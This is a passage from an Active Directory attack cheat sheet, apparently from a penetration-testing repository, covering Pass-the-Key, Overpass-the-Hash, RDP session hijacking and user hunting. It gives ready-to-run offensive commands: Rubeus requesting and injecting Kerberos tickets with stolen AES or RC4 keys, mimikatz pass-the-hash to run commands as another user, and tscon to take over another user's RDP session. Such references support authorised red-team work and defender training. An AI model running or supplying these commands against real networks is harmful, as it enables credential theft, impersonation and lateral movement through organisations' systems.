 The key is used to encrypt a timestamp sent by the user during the TGT requesting process. They depends on the algorithm used to encrypt the timestamp. If an attacker obtain any of these keys, he can ask the KDC for a TGT without providing the actual user's password.

> **NOTE**: Pass-the-Key is usually called simply _Overpass-the-Hash_. The technique is basically the same but the idea is a little bit different.

```powershell
# Request TGT using AES-256 key
./Rubeus.exe asktgt /user:<USER> /aes256:<AES_KEY> /opsec /createnetonly:C\Windows\System32\cmd.exe /show /ptt

# Check if TGT has been granted successfully
klist
```

### 7.3. Overpass-the-Hash
Same as the _pass-the-key_ technique. If the RC4 algorithm is used by Kerberos, the RC4 + HMAC key is equal to the NT hash of a user. It means that if an attacker is able to steal the NT hash, he would be able to request the TGT even if the NTLM authentication is disabled.

```powershell
# Run a :command as a different :user using :key
./mimikatz.exe 
> sekurlsa::pth /user:<USER> /rc4:<KEY> /run:<COMMAND>

# Request TGT using RC4
./Rubeus.exe asktgt /user:<USER> /rc4:<RC4_KEY> /ptt

# Check if TGT has been granted successfully
klist
```

## 8. RDP hijacking
TBD

```powershell
# List sessions
query session

# Hijack
tscon <id> /dest:<current-connection>
```

## 9. User hunting
[Read more](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/D%20-%20User%20Hunting)

User hunting is basically a proces of finding interesting lateral-movement vectors. ACLs, privileges, groups and AD/local groups are so complicated that very often it's not so easy to find what we can actualy do with the current user. For example, our AD user might be a member of local Administrators group on some random machine in the network and we want to know about this. Details like so are not easy-retrievable because they usually require whole set of different commands. That's why they are usually used from automatic modules (e.g. `PowerUp.ps1`).
